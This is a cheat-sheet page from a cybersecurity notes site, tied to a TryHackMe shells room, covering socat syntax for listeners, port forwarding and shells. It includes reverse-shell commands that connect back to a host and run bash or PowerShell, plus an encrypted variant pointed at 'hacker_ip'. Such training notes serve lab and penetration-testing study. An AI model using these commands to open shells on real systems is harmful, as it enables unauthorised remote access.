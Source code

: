 # socat

[![introtoshells](../../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-lg-2"><div>

socat is a command similar to netcat. Similarly to other wrappers, it can be used for a client or a server, but with socat, you will mostly use a wrapper for both sides.

On the target, you will most likely have to upload a [static binary of socat](https://github.com/andrew-d/static-binaries/tree/master/binaries) as the command is rarely already installed.

The command is taking two "addresses":

```ps
$ socat EXPR1 EXPR2
```

➡️ Add `-d -d` for debug information.
</div><div>

A few basic elements:

* `TCP-L:port`/`TCP-LISTEN:port`: listen on that port
* `TCP:IP:port`: connect to a host on a port
* `-`/`STDOUT`: write to stdout
* `EXEC:`: connect to a command
* `FILE:`: connect to a file
</div></div>

<hr class="sep-both">

## Common Examples

[![introtoshells](../../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

<div class="row row-cols-lg-2"><div>

For a server similar `nc -lnp port`:

```shell!
$ socat TCP-L:port FILE:`tty`,raw,echo=0 # interactive
$ socat TCP-L:port -                     # semi-interactive
$ socat TCP-LISTEN:port STDOUT           # semi-interactive
```

For a client similar to `nc IP port [...]`:

```ps
$ socat TCP:IP:port EXEC:"bash -li",pty,stderr,sigint,setsid,sane # interactive
$ socat TCP:IP:port EXEC:"bash -li"             # semi-interactive
PS> socat TCP:IP:port EXEC:powershell.exe,pipes # semi-interactive?
```
</div><div>

To use SSL/TLS, you need to generate a certificate, try with [openssl](/cybersecurity/cryptography/commands/openssl.md).

```shell!
$ cat key.pem cert.pem > shell.pem
$ socat OPENSSL-LISTEN:port,cert=shell.pem,verify=0 [...] # Server
$ socat OPENSSL:hacker_ip:port,verify=0 [...] # Client
```

To expose a UNIX socket at `localhost:1234`:

```shell!
$ socat TCP-LISTEN:1234,reuseaddr,fork UNIX-CONNECT:/path/to/xxx.sock
```

Listen on traffic on `1234` and forward it to `IP:port`:

```shell!
$ socat TCP4-LISTEN:1234,fork TCP4:IP:port
```
</div></div>